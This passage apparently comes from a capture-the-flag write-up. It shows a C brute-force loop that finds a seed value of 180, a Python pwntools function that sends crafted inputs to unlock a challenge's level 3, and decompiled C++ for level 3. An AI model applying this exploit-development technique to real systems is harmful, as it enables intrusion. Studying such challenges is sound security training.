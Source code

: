 ```c

			printf("FOUND %d\n", i);
			return 0;

		}
		i += 1;


	}

}

/*
OUTPUT:
...
0: 58
1: 87
2: 113
3: 188
4: 68
5: 243
6: 227
7: 35
8: 2
9: 70
10: 117
11: 48
12: 250
13: 167
14: 249
15: 25
FOUND 180
*/

```

Hence, a seed of 180 will allow us to accurately write to `level_1_check`.

At this point we can craft stage 1 of our exploit script, to unlock level 3.

```python
def unlock_level_3():
    p.sendlineafter(b"option: ", b"1")
    p.sendlineafter(b"seed: ", b"180")

    for i in range(16):
        p.sendlineafter(b"here? ", b"34")
```

Now if we look at the code for level 3, 

```c
    v2 = std::operator<<<std::char_traits<char>>(&std::cout, "Welcome to level 3!");
    std::ostream::operator<<(v2, &std::endl<char,std::char_traits<char>>);
    v3 = std::operator<<<std::char_traits<char>>(&std::cout, "There is actually no level 3 ... ");
    std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
    v4 = std::operator<<<std::char_traits<char>>(&std::cout, "All we want you to do is to leave a message behind :D");
    std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
    std::ostream::operator<<(&std::cout, &std::endl<char,std::char_traits<char>>);
    v15 = 0;
    v5 = alloca(48LL);
    s = &v12;
    v6 = alloca(48LL);
    v13 = (char *)&v12;
    memset(&v12, 0, 0x28uLL);
```